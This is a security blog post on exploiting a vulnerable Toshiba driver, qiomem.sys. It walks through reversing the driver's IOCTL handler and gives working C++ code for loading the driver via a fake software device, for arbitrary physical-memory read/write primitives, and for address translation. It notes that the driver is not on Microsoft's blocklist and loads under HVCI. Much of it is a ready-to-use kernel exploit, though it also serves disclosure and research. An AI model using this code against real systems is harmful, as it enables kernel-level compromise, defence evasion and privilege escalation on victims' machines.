


+++
title = "Exploiting Toshiba Qiomem.sys vulnerable driver"
date = 2026-05-16
+++

## 1. Introduction

`qiomem.sys` exposes a family of IOCTLs that map attacker-chosen physical addresses into kernel virtual address space via `MmMapIoSpace`, perform a read or write of 1/2/4 bytes, then unmap. No validation is performed on the physical address. The driver is not on the Microsoft Vulnerable Driver list and loads fine under HVCI.

This post walks through the reverse engineering of the dispatch handler, reconstruction of the IOCTL buffer layout, and a proof-of-concept demonstrating round-trip physical memory read/write.

---

## 2. Target Identification

The driver registers a device interface under a custom GUID, Xrefing the `IoRegisterDeviceInterface` function and looking at the second parameter in IDA leads to this GUID:

```cpp
static const GUID GUID_QIOMEM_INTERFACE = {
    0x020C37D0, 0xA3A6, 0x4069,
    { 0xA6, 0x40, 0x33, 0x48, 0x0A, 0x03, 0x3C, 0x25 }
};
```

### 2.1 Driver Loading

`qiomem.sys` binds to the ACPI hardware ID `ACPI\QCI0701`. On machines where this ACPI device is not present in firmware, the driver will never load.

Windows exposes the **Software Device API** (`swdevice.dll`) precisely for this: any process can call `SwDeviceCreate` to synthesize an arbitrary PnP device node under a chosen parent. When the node's hardware ID matches a driver's `[Manufacturer]` INF entry, PnP loads it automatically.

```cpp
#define TARGET_HWID L"ACPI\\QCI0701"

const wchar_t hwIds[] = TARGET_HWID L"\0";

SW_DEVICE_CREATE_INFO createInfo{};
createInfo.cbSize               = sizeof(createInfo);
createInfo.pszInstanceId        = L"FakeACPIDevice0001";
createInfo.pszzHardwareIds      = hwIds;           // triggers driver match
createInfo.CapabilityFlags      = SWDeviceCapabilitiesNone;
createInfo.pszDeviceDescription = L"Virtual ACPI Device";

HSWDEVICE hSwDevice = nullptr;
SwDeviceCreate(
    L"MyVirtualBus",
    L"HTREE\\ROOT\\0",      // parent: the root of the device tree
    &createInfo,
    0, nullptr,
    DeviceCreateCallback,  // signalled when PnP completes node creation
    nullptr,
    &hSwDevice
);
```

Once `DeviceCreateCallback` fires with `S_OK`, the PnP manager has matched `ACPI\QCI0701` to `qiomem.sys` and loaded it into kernel space. The device interface GUID is then available for `SetupDiGetClassDevs` / `CreateFileW`. The node remains alive for as long as `hSwDevice` is open, closing it via `SwDeviceClose` causes PnP to unload the driver.

---

## 3. Reverse Engineering the Dispatch Handler

The driver's `IRP_MJ_DEVICE_CONTROL` handler (`sub_1400072F8` in the analyzed binary) implements a large switch over the IOCTL control code. The handler extracts the IOCTL code, input buffer length, and output buffer length from the current I/O stack location:

```c
ioctlcode = CurrentStackLocation->Parameters.DeviceIoControl.IoControlCode;
Options   = CurrentStackLocation->Parameters.Create.Options;   // InputBufferLength
Length    = CurrentStackLocation->Parameters.Read.Length;        // OutputBufferLength
```

### 3.1 IOCTL Code Structure

Decoded from the handler's constants:

| IOCTL        | Direction | Granularity | Kernel call                            |
| ------------ | --------- | ----------- | -------------------------------------- |
| `0x08012000` | Read      | 1 byte      | `MmMapIoSpace(pa, 1, MmWriteCombined)` |
| `0x08012004` | Read      | 2 bytes     | `MmMapIoSpace(pa, 2, MmWriteCombined)` |
| `0x08012008` | Read      | 4 bytes     | `MmMapIoSpace(pa, 4, MmWriteCombined)` |
| `0x0801200C` | Write     | 1 byte      | `MmMapIoSpace(pa, 1, MmWriteCombined)` |
| `0x08012010` | Write     | 2 bytes     | `MmMapIoSpace(pa, 2, MmWriteCombined)` |
| `0x08012014` | Write     | 4 bytes     | `MmMapIoSpace(pa, 4, MmWriteCombined)` |
|              |           |             |                                        |

### 3.2 Buffer Layout

The handler enforces `InputBufferLength == OutputBufferLength == 11` for the physical memory IOCTLs. The system buffer (accessed through `AssociatedIrp.SystemBuffer`) is interpreted with the following packed layout:

```cpp
#pragma pack(push, 1)
struct PhysIoBuffer {      // Total: 11 bytes
    uint32_t Address;      // [0..3]  Physical address (32-bit)
    char padding[3];       // [4..6]  Padding
    uint32_t DwordVal;     // [7..10] Dword-granularity value (buf+7)
};
#pragma pack(pop)
```

The decompiler shows the system buffer pointer aliased as `struct _IRP*`, which is confusing at first glance, the field accesses `v3->Type` (offset 0) and `v3->Size` (offset 2) are really byte offsets into the 11-byte buffer:

- `*(uint32_t*)&v3->Type` → buffer `[0..3]` = physical address
- `*(uint8_t*)(&v3->Size + 2)` → buffer `[4]` = byte value
- `*(uint16_t*)((char*)&v3->Size + 3)` → buffer `[5..6]` = word value
- `*(uint32_t*)((char*)&v3->Size + 5)` → buffer `[7..10]` = dword value

### 3.3 The Vulnerable Code Path

Taking the dword-read IOCTL (`0x08012008`) as representative:

```c
case 0x8012008u:
    v28 = MmMapIoSpace(v11, 4u, MmWriteCombined);   // map 4 bytes at attacker PA
    *((_QWORD *)DeviceExtension + 133) = v28;        // stash mapped VA
    *(_DWORD *)((char *)&v3->Size + 5) = *v28;       // copy to output buffer
    MmUnmapIoSpace(*((PVOID *)DeviceExtension + 133), 4u);
    break;
```

And the corresponding dword-write (`0x08012014`):

```c
case 0x8012014u:
    v24 = MmMapIoSpace(v11, 4u, MmWriteCombined);   // map 4 bytes at attacker PA
    *((_QWORD *)DeviceExtension + 133) = v24;        // stash mapped VA
    *v24 = *(_DWORD *)((char *)&v3->Size + 5);       // write from input buffer
    _InterlockedOr(v35, 0);                           // memory barrier
    MmUnmapIoSpace(*((PVOID *)DeviceExtension + 133), 4u);
    break;
```

**There is zero validation of the physical address.** Whatever 32-bit value the caller supplies in `Address` is passed directly to `MmMapIoSpace`. This gives any user-mode process with a device handle the ability to read or write any physical address below 4 GiB.

---

## 4. Exploitation

### 4.1 Constraint: 32-bit Physical Address

The address field is a `uint32_t`, limiting access to the first 4 GiB of physical address space.

### 4.2 Building R/W Primitives

Reading and writing are straightforward DeviceIoControl calls:

```cpp
static bool read_phys_dword(HANDLE hDev, uint64_t phys_addr, uint32_t& out) {
    PhysIoBuffer buf{};
    buf.Address = static_cast<uint32_t>(phys_addr);
    DWORD bytes_ret = 0;
    if (!DeviceIoControl(hDev, IOCTL_PHYS_READ_DWORD,
                         &buf, sizeof(buf), &buf, sizeof(buf),
                         &bytes_ret, nullptr))
        return false;
    out = buf.Data32;
    return true;
}

static bool write_phys_dword(HANDLE hDev, uint64_t phys_addr, uint32_t val) {
    PhysIoBuffer buf{};
    buf.Address = static_cast<uint32_t>(phys_addr);
    buf.Data32  = val;
    DWORD bytes_ret = 0;
    return DeviceIoControl(hDev, IOCTL_PHYS_WRITE_DWORD,
                           &buf, sizeof(buf), &buf, sizeof(buf),
                           &bytes_ret, nullptr) != 0;
}
```

64-bit values are composed from two consecutive dword operations.

### 4.3 VA-to-PA Translation via Superfetch

[Superfetch](https://github.com/jonomango/superfetch) is a simple library for translating virtual addresses to physical addresses from usermode.

The approach:

1. **Allocate** a page with `VirtualAlloc` and fault it in with `memset`
2. **Lock** it with `VirtualLock` to prevent the page from being paged out or relocated
3. **Snapshot** the memory map using Superfetch
4. **Translate** the virtual address to its physical backing

If the resulting physical address falls above 4 GiB (possible on systems with >4 GB RAM), we discard the page, keeping it locked so the OS assigns a *different* physical page on the next allocation and retry:

```cpp
std::vector<void*> rejects;
for (int attempt = 0; attempt < MAX_ATTEMPTS; ++attempt) {
    buf = VirtualAlloc(nullptr, PAGE_SZ, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memset(buf, 0, PAGE_SZ);
    VirtualLock(buf, PAGE_SZ);

    auto mm = spf::memory_map::current();   // fresh PFN snapshot
    pa = mm->translate(buf);

    if (pa && pa < 0x1'0000'0000ULL) break; // success — below 4GB

    rejects.push_back(buf);                  // hold the page, try again
}
// free rejects after success
```

In practice, user-mode pages almost always land below 4 GiB on the first attempt.

### 4.4 Proof of Concept: Round-Trip Verification

The PoC demonstrates that a value written via physical memory is visible through the virtual mapping, confirming the primitive works end-to-end:

We first create the fake device:



Then the main exploit:



The `MISMATCH` / `OK` check at the end confirms that writing to the physical address through the driver correctly modifies the content visible at the corresponding virtual address, proving arbitrary physical memory write. [Source](https://github.com/valium007/qiomem)

---
